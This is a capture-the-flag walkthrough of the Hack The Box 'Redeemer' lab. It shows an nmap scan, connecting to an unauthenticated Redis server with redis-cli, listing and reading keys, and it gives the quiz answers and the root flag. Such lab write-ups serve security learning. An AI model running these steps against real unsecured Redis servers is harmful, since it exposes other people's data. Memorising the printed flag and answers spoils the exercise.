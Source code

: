 ```yaml
---

title: "Redeemer"
date: 2022-05-12 01:09:33 +0300
author: oste
image: /assets/img/Posts/redeemer.png
categories: [HTB, Starting Point, Tier 0]
tags: [linux, Redis]
---
```


### Task 1

> _Which TCP port is open on the machine?_

```bash
➜  nmap -sC -sV -p- -T4 10.129.161.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-18 13:08 EDT
Nmap scan report for 10.129.161.156 (10.129.161.156)
Host is up (0.24s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1103.43 seconds

```

`6379`

### Task 2

> _Which service is running on the port that is open on the machine?_

`Redis`

### Task 3

> _What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database_

`In-memory Database`

### Task 4

> _Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments._

`Redis-cli`

### Task 5

> _Which flag is used with the Redis command-line utility to specify the hostname?_

```bash
➜  redis-cli -h
redis-cli 6.0.16

Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]
  -h <hostname>      Server hostname (default: 127.0.0.1).

```

`-h`

### Task 6

> _Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?_

![image](https://user-images.githubusercontent.com/58165365/169652060-f1482fec-a58b-4526-8509-5e390da64e7d.png)

`info`

### Task 7

> _What is the version of the Redis server being used on the target machine?_

```bash
10.129.161.156:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
```

`5.0.7`

### Task 8

> _Which command is used to select the desired database in Redis?_

![image](https://user-images.githubusercontent.com/58165365/169652153-73f28340-f9b7-4100-9ccf-ce74ca208490.png)

`select`

### Task 9

> _How many keys are present inside the database with index 0?_

```bash
➜  startingpoint redis-cli -h 10.129.161.156
10.129.161.156:6379> keys *
1) "flag"
2) "numb"
3) "stor"
4) "temp"
10.129.161.156:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.161.156:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.161.156:6379> get stor
"e80d635f95686148284526e1980740f8"
10.129.161.156:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"
```

`4`

### Task 10

> _Which command is used to obtain all the keys in a database?_

![image](https://user-images.githubusercontent.com/58165365/169652197-e228848a-0426-4ceb-bf68-8793606498a5.png)

`keys *`

### Submit Flag

> _Submit root flag_

`03e1d2b376c37ab3f5319922053953eb`

# Resources

- [Redis - Commands](https://redis.io/commands/)
- [Redis CLI](https://redis.io/docs/manual/cli/)
